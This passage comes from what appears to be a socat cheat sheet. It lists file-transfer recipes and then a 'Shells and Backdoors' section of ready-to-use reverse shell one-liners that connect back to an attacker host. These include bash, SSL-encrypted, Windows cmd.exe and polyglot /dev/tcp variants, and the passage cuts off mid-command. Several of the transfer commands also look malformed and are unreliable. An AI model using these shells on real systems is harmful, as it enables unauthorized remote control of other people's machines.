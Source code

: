     socat UDP-SENDTO:<multicast_ip>:<multicast_port> FILE:<file_to_send>
    # On multiple receiving ends:
    socat UDP-RECVFROM:<multicast_port>,ip-add-membership=<multicast_ip>:<local_ip> FILE:<output_file>
    ```
4. **Resumable File Transfer**: Allows for resuming interrupted file transfers by specifying a byte offset.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork FILE:<file_to_send>,seek=<offset>
    # On the receiving end:
    socat - TCP:<attack_ip>:<attack_port> FILE:<output_file>,seek=<offset>
    ```
5. **Bidirectional File Transfer**: Enables bidirectional file transfers, where both the sender and receiver can send and receive data simultaneously.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork GOPEN:<file_to_send>,create TCP:<target_ip>:<target_port>
    ```
6. **Encrypted and Compressed File Transfer**: Combines compression and encryption to secure and optimize file transfers.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork EXEC:"gzip -c <file_to_send> | openssl enc -aes-256-cbc -salt -pass pass:<password>" | socat - TCP:<target_ip>:<target_port> EXEC:"openssl enc -d -aes-256-cbc -pass pass:<password> | gzip -d > <output_file>"
    ```
7. **Automated Backup Transfer**: Automates the transfer of backup data from one system to another.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"tar -czf - /path/to/backup" | socat - TCP:<target_ip>:<target_port> SYSTEM:"tar -xzf - -C /path/to/restore"
    ```

#### Shells and Backdoors

1. **Basic Reverse Shell**: Creates a basic reverse shell that connects back to the attacker's machine.
    ```bash
    socat TCP:<attack_ip>:<attack_port> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
2. **Encrypted Reverse Shell**: Creates an SSL/TLS-encrypted reverse shell, securing the connection from eavesdropping.
    ```bash
    socat OPENSSL:<attack_ip>:<attack_port>,verify=0 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
3. **Windows Reverse Shell**: Establishes a reverse shell on a Windows system using `cmd.exe`.
    ```bash
    socat TCP:<attack_ip>:<attack_port> EXEC:'cmd.exe',pty,stderr,setsid,sigint,sane
    ```
4. **Fully Interactive TTY Shell**: Provides a fully interactive TTY shell, ensuring better interaction with the shell session.
    ```bash
    socat TCP-LISTEN:<attack_port>,reuseaddr,fork EXEC:"bash -li",pty,stderr,setsid,sigint,sane
    ```
5. **Polyglot Reverse Shell**: A versatile script that attempts multiple reverse shell methods across different environments.
    ```bash
    socat TCP:<attack_ip>:<attack_port> EXEC:'/bin/bash -i >& /dev/tcp/<attack_ip>/<attack_port> 0>&1' || \
    socat TCP:<attack_ip>:<attack_port> EXEC:'/bin/sh -i >& /dev/tcp/<attack_ip>/<attack_port> 0>&1' || \
    socat TCP:<attack_ip>:<attack_port> EXEC:'/usr/bin/python3 -c "import pty; pty.spawn(\'/bin/bash\')"' || \